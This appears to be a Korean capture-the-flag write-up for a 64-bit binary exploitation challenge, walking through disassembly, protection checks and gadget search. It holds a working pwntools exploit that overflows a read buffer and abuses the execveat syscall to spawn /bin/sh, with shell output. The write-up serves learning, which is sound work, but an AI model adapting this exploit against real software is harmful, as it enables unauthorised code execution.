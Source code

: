 # 상준이가 문제 줌#4

![ScreenShot](secretpack/CTF_Writeup/s0ngsaris_study/Homework/image/sc1.JPG)  

---

문제를 풀 때 당시 64bit pwnable은 아직 익숙하지 않았다.  

일단 IDA로 해당 파일을 열어보았다.

```
.text:00000000004000B0                 xor     rax, rax
.text:00000000004000B3                 xor     rbx, rbx
.text:00000000004000B6                 xor     rcx, rcx
.text:00000000004000B9                 xor     rdx, rdx
.text:00000000004000BC                 xor     rdi, rdi
.text:00000000004000BF                 xor     rsi, rsi
.text:00000000004000C2                 xor     r8, r8
.text:00000000004000C5                 xor     r9, r9
.text:00000000004000C8                 xor     r10, r10
.text:00000000004000CB                 xor     r11, r11
.text:00000000004000CE                 xor     r12, r12
.text:00000000004000D1                 xor     r13, r13
.text:00000000004000D4                 xor     r14, r14
.text:00000000004000D7                 xor     r15, r15
.text:00000000004000DA                 xor     rbp, rbp
.text:00000000004000DD                 call    sub_4000F2
.text:00000000004000E2                 mov     eax, 3Ch
.text:00000000004000E7                 xor     rdi, rdi
.text:00000000004000EA                 xor     rsi, rsi
.text:00000000004000ED                 xor     rdx, rdx
.text:00000000004000F0                 syscall
```

젠장 끝이다... 어셈으로 짜여진 파일인것 같다.

우선 xor 연산을 통해 보이는 레지스터의 값을 모두 0으로 만든다

그리고 sub_4000F2 함수를 call 한다. 저기에 뭐가 있는지 봐야겠지?

```
4000f2:       48 81 ec 28 01 00 00    sub    $0x128,%rsp
4000f9:       48 89 e6                mov    %rsp,%rsi
4000fc:       ba 48 01 00 00          mov    $0x148,%edx
400101:       0f 05                   syscall
```

#### ~FUCKING

0x128(296)byte 만큼의 공간을 할당한다 그리고 rsi 레지스터에 해당 값을 넣는다.

그리고 edx(rdx) 에 0x148을 넣는다. 그리고 syscall 을 통해 특정 함수를 호출한다.

자 이제 어떤 함수일까...

먼저 rax 가 0이므로 64bit systemcall number 0인 read 함수가 호출된다.

rdx 또한 0으로 초기화 되어 있고 rsi rdx 에 어떤 값이 들어가는 지 알고 있다.

이걸 대충 C언어로 바꾸면 다음과 같다.

```c
#include <stdio.h>

int main()
{
    read(0, buf, 148);
}
```
혹시 그럴리 없겠지만 syscall number를 모를 경우 디버깅을 통해 확인할 수 있다.

```
RAX  0x0
RBX  0x0
RCX  0x0
RDX  0x148
RDI  0x0
RSI  0x7fffffffe470 ◂— 0x0
R8   0x0
R9   0x0
R10  0x0
R11  0x0
R12  0x0
R13  0x0
R14  0x0
R15  0x0
RBP  0x0
RSP  0x7fffffffe470 ◂— 0x0
RIP  0x400101 ◂— syscall
─────────────────────────────────[ DISASM ]─────────────────────────
  0x4000f2    sub    rsp, 0x128
  0x4000f9    mov    rsi, rsp
  0x4000fc    mov    edx, 0x148
► 0x400101    syscall  <SYS_read>
       fd: 0x0
       buf: 0x7fffffffe470 ◂— 0x0
       nbytes: 0x148
```

흠 우선 풀기 전에 어떤 보호 기법이 적용되어 있는지 확인해볼 필요가 있다.

```
secretpack@ubuntu:~/Desktop$ pwn checksec attackme
[*] '/home/secretpack/Desktop/attackme'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
NX enable 이므로 shellcode를 쓸 수가 없다.

그렇다면 다른 방법을 강구해야 한다. 검색을 하던중 [Sigreturn을 이용한 SROP](https://www.lazenca.net/plugins/servlet/mobile?contentId=16810278#content/view/16810278)와 관련된 문서를 보게 되었다. 이를 시도 했으나 64bit에서 sigreturn 함수의 systemcall number는 15 이다. 방법이 없지는 않겠지만 내가 알고있는 선에서는 이 방법을 사용해 풀 수가 없다는 판결을 내렸다.

그리고 상준이가 문제 해결을 위한 힌트를 줬다.

```
[상준] [오후 9:58] 자
[상준] [오후 9:58] 힌트준다
[상준] [오후 9:58] 64bit에서는
[상준] [오후 9:58] execveat이라는
[상준] [오후 9:58] 엄청난 시스콜이잇다
[상준] [오후 9:59] 한번 검색해서봐라
```

##### 검색해보자!

```c
#include <unistd.h>

int execveat(int dirfd, const char *pathname,
             char *const argv[], char *const envp[], int flags);
```
인자가 엄청 많은데...

manpage 를 잘 읽어보면 이 함수를 사용하여 /bin/sh를 실행할 수 있다.

```c
execveat(0,"/bin/sh",NULL,NULL,0);
```

요롷게 들어가면 쉘이 실행된다고 한다.

혹시나!! ROPGadget을 이용해서 pop rax 가젯이 있는지 먼저 찾아봤다.

```
secretpack@ubuntu:~/Desktop$ ROPgadget --binary attackme
Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x0000000000400101 : syscall ; add rsp, 0x128 ; ret
```

역시나 없다..

read 함수의 manpage를 읽어보면 read함수는 입력받은 문자열의 길이를 return 한다고 나와있다. 함수의 리턴값은 rax 레지스터에 저장된다. 어??? 이것을 이용하여 공격을 하면 될것 같다.

execveat 함수에 들어가는 rsi는 파일 이름이고 read 함수의 rsi는 입력값이다.
그렇다면 익스플로잇 코드를 작성할때 "/bin/sh\x00"를 앞에 쓰고 그 뒤에 버퍼를 채워주면
실질적인 문자열은 /bin/sh이므로 execveat() 함수의 두번째 인자에 저 문자열을 전달 할 수 있다.

##### 2018.12.19
최종적으로 문제풀이를 완료 했다.
익스플로잇 코드를 작성하였으나 뜻대로 들어가지 않았고 본의 아니게 삽질 했다.
rdx 레지스터가 이상한 값으로 세팅되어 있어서 그랬다...

xor rdx, rdx 를 가져와 문제 풀이에 사용하였고 성공했다.

```python
from pwn import*

p = remote("./attackme")

syscall = 0x400101
zero_rdx = 0x4000ed

payload = "/bin/sh\x00"
# payload += "A" * (0x128 - 8)
payload += "A" * (0x148 - (8 * 4) - 8) # 실제로 ret 부분 앞까지 계산
payload += p64(zero_rdx)
payload += p64(syscall)
payload += "A" * (0x142 - len(payload) - 1) # execveat

p.sendline(payload)
p.interactive()
```
```
secretpack@ubuntu:~/Desktop$ python test.py
[+] Starting local process './attackme': pid 59820
[*] Switching to interactive mode
$ id
uid=1000(secretpack) gid=1000(secretpack) groups=1000(secretpack),4(adm)
$  

```
힘들었다... 당분간은 디버깅 연습을 많이 해야 겠다.

